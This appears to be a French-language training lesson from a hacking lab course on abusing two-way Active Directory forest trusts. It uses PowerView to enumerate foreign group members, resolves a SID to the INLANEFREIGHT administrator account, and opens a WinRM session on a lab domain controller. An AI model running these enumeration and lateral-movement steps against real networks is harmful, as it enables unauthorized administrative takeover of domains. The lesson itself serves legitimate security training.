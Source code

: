 Nous pouvons également voir les utilisateurs ou les administrateurs du domaine A comme membres d'un groupe du domaine B. `Domain Local Groups`Autoriser uniquement les entités de sécurité extérieures à sa forêt. Nous pouvons voir un administrateur de domaine ou un administrateur d'entreprise du domaine A en tant que membre du groupe d'administrateurs intégré du domaine B dans une relation d'approbation de forêt bidirectionnelle. Si nous pouvons reprendre cet utilisateur administrateur dans le domaine A, nous obtiendrons un accès administratif complet au domaine B en fonction de l'appartenance au groupe.

Nous pouvons utiliser la fonction PowerView [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) pour énumérer les groupes avec des utilisateurs qui n'appartiennent pas au domaine, également appelés `foreign group membership`. Essayons ceci avec le `FREIGHTLOGISTICS.LOCAL`domaine avec lequel nous avons une approbation forestière bidirectionnelle externe.

#### Utilisation de Get-DomainForeignGroupMember

  Attaquer les approbations de domaine - Abus d'approbation entre forêts - à partir de Windows

```
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator

```

Le résultat de la commande ci-dessus montre que le groupe Administrateurs intégré `FREIGHTLOGISTICS.LOCAL`possède le compte Administrateur intégré pour le `INLANEFREIGHT.LOCAL`domaine en tant que membre. Nous pouvons vérifier cet accès à l'aide de l' `Enter-PSSession`applet de commande pour nous connecter via WinRM.

#### Accès à DC03 à l'aide d'Enter-PSSession

  Attaquer les approbations de domaine - Abus d'approbation entre forêts - à partir de Windows

```
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL

```
